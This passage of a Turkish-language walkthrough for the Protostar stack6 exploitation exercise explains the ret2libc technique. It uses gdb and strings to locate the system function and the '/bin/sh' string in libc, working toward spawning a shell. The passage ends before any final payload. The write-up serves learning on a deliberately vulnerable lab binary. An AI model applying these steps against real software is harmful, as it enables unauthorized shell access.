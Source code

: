 ```bash
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Stackin adres aralığı: 0xbffeb000 - 0xc0000000. Bir önceki yöntem burada işe yaramayacaktır. Soruda bize verilen ipucu, `ret2libc` yöntemini kullanmamız. Yöntemi araştırdığımızda ise `libc`deki fonksiyonların adreslerinin daimi sabit olduğunu öğreniyoruz. Yani, biz kod akışını `libc`'deki bir fonksiyona yönlendirebiliriz. İşimize yarayabilecek fonksiyonlardan biri `system` fonksiyonu.

###### https://www.shellblade.net/files/docs/ret2libc.pdf

```bash
man system
```

`system`in hangi adreste bulunduğunu bulalım:

```bash
$ gdb -q ./stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

`system` 0xb7ecffb0 adresinde bulunuyormuş.

`system`e argüman olarak vereceğimiz `"/bin/sh"`ın libcdeki konumunu bulalım:

```bash
$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
    11f3bf /bin/sh

$ gdb -q
p/x 0xb7e97000 + 0x11f3bf
$1 = 0xb7fb63bf
# 0xb7e97000 libc başlangıç adresi
```

`system` = 0xb7ecffb0
